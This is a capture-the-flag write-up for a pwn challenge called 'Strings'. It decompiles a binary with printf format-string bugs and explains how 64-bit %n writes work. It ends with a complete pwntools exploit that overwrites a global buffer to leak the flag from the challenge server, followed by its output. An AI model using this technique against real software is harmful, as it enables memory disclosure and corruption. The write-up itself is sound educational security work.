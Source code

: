 ```yaml
---
title: Strings
type: writeup
date: 2023-06-10
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

I love Strings! Do you? Let me know!

Author: NoobMaster

## Solution

Decompiling the binary - we can first see a clear format string vulnerability. We get to read into a buffer that then gets printed directly with printf. Perhaps we can use it to leak an address, or write to somewhere with the ``%n`` format string.

```c
void main(EVP_PKEY_CTX *param_1)
{
  long in_FS_OFFSET;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  puts("Do you love strings? ");
  fgets(local_78,100,stdin);
  printf(local_78);
  main2();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Decompiling ``main2()``, we can see that it prints a global buffer ``fake_flag``, again introducing another format string vulnerability. We can see that the real flag is read into the ``local_38`` buffer. The idea for the solution would be to first use ``%n`` to rewrite ``fake_flag`` to ``%s``, so it prints out the real flag.
```c
void main2(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_38,0x28,__stream);
  printf(fake_flag);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
So there are a few things to know about format string vulnerability. Firstly, we can access a relative argument passed to printf, by adding a number to the format string. For example ``%5$s`` would print the string found at the 5th address on the stack. Well, it would, if it were a 32-bits binary. But on 64-bits it gets even better - the first arguments that printf looks at are the registers. (as the following [repo](https://github.com/Mymaqn/The-danger-of-repetivive-format-string-vulnerabilities-and-abusing-exit-on-full-RELRO) suggests). The first argument on the stack would actually be the 6th. This might not be true every time, I'm unsure why, but the current binary will have the stack starting at the 5th argument.

Another thing we have to know, is that in 64-bits binaries, we have to append addresses to our payload, instead of inserting them at the beginning. Because they have null bytes in them, which will mess with printf. This is highlighted in this [blog](https://tripoloski1337.github.io/ctf/2020/06/11/format-string-bug.html).

Knowing all these details, we can start working towards the exploit. First, we extract the address of ``fake_flag``. We want to write ``%5$s`` to it, because that's where the stack starts and where our real flag is. As per the blogpost earlier, writing 4 bytes would take a lot of printing, which will take a lot of time. So we have to write 2 bytes and then another 2 bytes. We print ``x`` bytes with ``%xc``, where ``x`` is the integer value for ``%5``. Then we write to the ``fake_flag`` address. We do the same with the ``$s``. We also have to pad the payload properly, so the stack is properly aligned. The full exploit:

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./strings")
target = remote("challs.n00bzunit3d.xyz",7150)

x = int.from_bytes(b"%5", byteorder='little')
y = int.from_bytes(b"$s", byteorder='little')

fake_flag_addr = p64(0x00404060)
fake_flag_addr_next = p64(0x00404060 + 2)

payload = "%{}c%10$hn%{}c%11$hnaaaaaa".format(x, y-x).encode() + fake_flag_addr + fake_flag_addr_next
#print(payload)

target.sendline(payload)
target.interactive()
```
We run the exploit:
```
$ ./solve.py
[...] # lots of whitespaces
\x8baaaaaa`@@n00bz{.hidden_and_famous}
z{f4k3_fl4g}[*] Got EOF while reading in interactive
```

Weird flag. But good win.

